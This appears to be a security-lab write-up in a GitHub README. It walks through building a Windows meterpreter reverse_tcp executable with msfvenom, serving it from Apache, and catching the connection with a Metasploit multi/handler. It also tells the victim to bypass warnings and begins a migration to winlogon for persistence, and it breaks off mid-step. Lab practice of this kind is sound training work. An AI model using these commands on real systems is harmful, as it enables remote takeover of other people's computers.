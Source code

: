 ```bash

```
### PROGRAM:

Find the attackers ip address using ifconfig

### Output:

<img width="766" height="337" alt="Screenshot 2025-10-02 120248" src="https://github.com/user-attachments/assets/3876b868-d2d6-4b9b-8ad0-b1877df14fcd" />



Create a malicious executable file fun.exe using msenom command ``` msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > fun.exe```

### Output:
<img width="819" height="829" alt="Screenshot 2025-10-02 120613" src="https://github.com/user-attachments/assets/2307025e-c5b5-4cce-acd5-9eb67b8b9968" />


<img width="951" height="828" alt="Screenshot 2025-10-02 120922" src="https://github.com/user-attachments/assets/f1c3326d-8494-48a8-ba14-3c08ef08f091" />


copy the fun.exe into the apache ```/var/www/html ```folder
Start apache server ```sudo systemctl apache2 start``` 
Check the status of apache2 ```sudo apache2 status```

Invoke msfconsole:

Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole.

Starting a command and control Server ```use multi/handler``` ```set PAYLOAD windows/meterpreter/reverse_tcp``` ```set LHOST 0.0.0.0``` ```exploit```

### Output 
<img width="950" height="635" alt="Screenshot 2025-10-02 121005" src="https://github.com/user-attachments/assets/5c971085-8fa8-4c8c-9669-b0e0f9196e55" />



On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine: ```http://192.168.1.2/fun.exe``` The file "fun.exe" downloads.



Bypass any warning boxes, double-click the file, and allow it to run.
On kali give the command exploit

<img width="953" height="876" alt="Screenshot 2025-10-02 121036" src="https://github.com/user-attachments/assets/5cce2af3-af3c-4e52-8af8-90136fb98d1b" />



To see a list of processes, at the meterpreter > prompt, execute this command: ps ⇒ can see the fun.exe process running with pid 1156

The Metasploit shell is running inside the "fun.exe" process. If the user closes that process, or logs off, the connection will be lost. To become more persistent, we'll migrate to a process that will last longer. Let's migrate to the winlogon process. At the meterpreter > prompt, execute this command:
